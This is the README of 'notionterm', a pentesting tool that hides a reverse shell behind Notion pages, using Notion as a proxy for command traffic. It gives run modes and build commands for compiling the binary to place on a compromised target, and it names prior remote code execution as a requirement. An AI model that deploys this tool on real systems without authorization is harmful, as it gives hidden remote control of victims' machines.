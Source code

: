 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>

<a href="https://github.com/spencerpauly/awesome-notion"><img src="https://awesome.re/mentioned-badge.svg"></a>

</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>
</div>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication from the target to the notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

### 🏗️ Set-up
1. Create a page and give to the integration API key the permissions to have write access to the page
2. Build `notionterm` and transfer it on target machine (see [install](#install))

### 👟 Run

There are 3 main ways to run `notionterm`:

<details>
  <summary><b>"normal" mode</b><br><i>Get terminal, stop/unstop it, etc...</i></summary>
<code>
notionterm [flags]
</code><br>
Start the shell with the button widget: turn <code>ON</code>, do you reverse shell stuff, turn <code>OFF</code> to pause, turn <code>ON</code> to resume etc...
</details>

<details>
  <summary><b>"server" mode</b><br><i>Ease notionterm embedding in any page</i></summary>
<code>
notionterm --server [flags]
</code><br>
Start a shell session in any page by creating an embed block with URL containing the page id <i>(<code>CTRL+L</code>to get it)</i>: <code>https://[TARGET_URL]/notionterm?url=[NOTION_PAGE_ID]</code>.
</details>


<details>
  <summary><b><code>light</code> mode</b><br><i>Only perform HTTP traffic from target → notion</i></summary>
<code>
notionterm light [flags]
</code>
</details>

## Install

As `notionterm` is aimed to be run on target machine it must be built to fit with it.

Thus set env var to fit with the target requirement:
```shell
GOOS=[windows/linux/darwin]
```

### Simple build
```shell
git clone https://github.com/ariary/notionterm.git && cd notionterm
GOOS=$GOOS go build notionterm.go
```

You will need to set API key and notion page URL using either env var (`NOTION_TOKEN` & `NOTION_PAGE_URL`) or flags (`--token` & `--page-url`)

### "All-inclusive" build
Embed directly the notion integration API token and notion page url in the binary. *⚠️ everybody with access to the binary can retrived the token. For security reason don't share it and remove it after use.*

Set according env var:
```shell
export NOTION_PAGE_URL=[NOTION_PAGE_URL]
export NOTION_TOKEN=[INTEGRATION_NOTION_TOKEN]
```
And build it:
```
git clone https://github.com/ariary/notionterm.git && cd notionterm
./static-build.sh $NOTION_PAGE_URL $NOTION_TOKEN $GOOS go build notionterm.go
```
